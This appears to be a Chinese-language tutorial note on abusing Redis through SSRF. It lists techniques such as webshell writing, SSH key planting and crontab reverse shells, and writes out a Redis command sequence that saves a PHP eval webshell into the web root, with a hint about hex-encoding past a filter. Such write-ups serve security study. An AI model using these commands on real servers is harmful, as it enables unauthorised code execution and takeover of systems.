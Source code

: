 [浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665)

基本利用点：

- 写webshell

- 写ssh公钥
- 写contrab计划任务反弹shell
- 主从复制


Redis是什么
>Redis是现在最受欢迎的NoSQL数据库之一，Redis是一个使用ANSI C编写的开源、包含多种数据结构、支持网络、基于内存、可选持久性的键值对存储数据库，

其具备如下特性：
-	基于内存运行，性能高效

-	支持分布式，理论上可以无限扩展
-	key-value存储系统
-	开源的使用ANSI C语言编写、遵守BSD协议、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API

手动尝试：

整体过程：
```
flushall
set 1 '<?php eval($_GET["cmd"]);?>'
config set dir /var/www/html
config set dbfilename shell.php
save
```
dict探测 redis 默认端口是否存活：返回+OK 说明redis接收到了

![](https://img-blog.csdnimg.cn/20210415235949346.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
设置本地数据库存放地址：可以看到返回一个+OK

![](https://img-blog.csdnimg.cn/20210416000004365.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
设置shell.php文件：

![](https://img-blog.csdnimg.cn/20210416000022617.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
写马写不进去过滤了 ‘?’ ：短标签也不行，十六进制可以绕过

![](https://img-blog.csdnimg.cn/20210416000038922.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


![](https://img-blog.csdnimg.cn/20210418114211188.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


保存：

![](https://img-blog.csdnimg.cn/20210416000054458.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

成功执行：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210418114303400.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)
